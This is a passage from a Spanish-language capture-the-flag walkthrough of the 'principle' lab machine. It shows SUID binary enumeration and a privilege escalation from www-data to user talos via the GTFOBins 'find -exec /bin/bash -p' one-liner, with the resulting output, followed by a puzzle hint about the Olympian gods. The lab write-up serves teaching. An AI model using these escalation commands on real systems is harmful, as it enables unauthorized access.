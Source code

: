 Como somos el usuario www-data y no tenemos asignada una shell, vamos a revisar los binarios que existen con permisos SUID a ver si nos podemos aprovechar:

~~~bash
www-data@principle:/$ find / -perm -4000 -ls 2>/dev/null
    17610     52 -rwsr-xr--   1 root     messagebus    51272 Feb  8 08:21 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    26824    640 -rwsr-xr-x   1 root     root         653888 Feb  8 05:43 /usr/lib/openssh/ssh-keysign
      368     64 -rwsr-xr-x   1 root     root          62672 Mar 23 08:40 /usr/bin/chfn
      371     88 -rwsr-xr-x   1 root     root          88496 Mar 23 08:40 /usr/bin/gpasswd
     2366     60 -rwsr-xr-x   1 root     root          59704 Mar 23 06:02 /usr/bin/mount
      372     68 -rwsr-xr-x   1 root     root          68248 Mar 23 08:40 /usr/bin/passwd
    31649    276 -rwsr-xr-x   1 root     root         281624 Mar  8 15:17 /usr/bin/sudo
     2293    220 -rwsr-xr-x   1 talos    root         224848 Jan  8 13:07 /usr/bin/find
     4689     72 -rwsr-xr-x   1 root     root          72000 Mar 23 06:02 /usr/bin/su
      369     52 -rwsr-xr-x   1 root     root          52880 Mar 23 08:40 /usr/bin/chsh
     2368     36 -rwsr-xr-x   1 root     root          35128 Mar 23 06:02 /usr/bin/umount
      598     48 -rwsr-xr-x   1 root     root          48896 Mar 23 08:40 /usr/bin/newgrp
~~~

Bueno, ahí vemos en primera instancia que hay un binario que pertenece a **talos**, que es nada más y nada menos que *find*. De esta forma, vamos como siempre a nuestro buen amigo <https://gtfobins.github.io/gtfobins/find/#suid> y vamos a explotarlo:

~~~bash
www-data@principle:/home$ cd /usr/bin/    
www-data@principle:/usr/bin$ ./find . -exec /bin/bash -p \; -quit
bash-5.2$ id
uid=33(www-data) gid=33(www-data) euid=1000(talos) groups=33(www-data)
~~~

Bien, nos hemos convertido en talos, así que vamos a ver qué nos encontramos en su directorio de trabajo:

~~~bash
bash-5.2$ cd /home/talos
bash-5.2$ ls
note.txt
bash-5.2$ cat note.txt 
Congratulations! You have made it this far thanks to the manipulated file I left you, I knew you would make it!
Now we are very close to finding this false God Elohim.
I left you a file with the name of one of the 12 Gods of Olympus, out of the eye of Elohim ;)
The tool I left you is still your ally. Good luck to you.
~~~

> Aquí cometí un error, ya que todas las pistas están en inglés, pero los Dioses los pensé en Español, por lo que se debe realizar la búsqueda del fichero en **español**.

Siguiendo con el lore de la antigua Grecia nos habla de los 12 Dioses del Olimpo, por lo que realizando una búsqueda en Google podemos copiarlos directamente a un archivo de texto. De esta forma, crearemos un script que nos realice un find para cada línea del listado:

~~~
bash-5.2$ cat dioses.txt 
Zeus
Hera
Poseidon
Afrodita
Ares
Atenea
Hermes
Apolo
Artemisa
Hefesto
Demeter
Hestia
~~~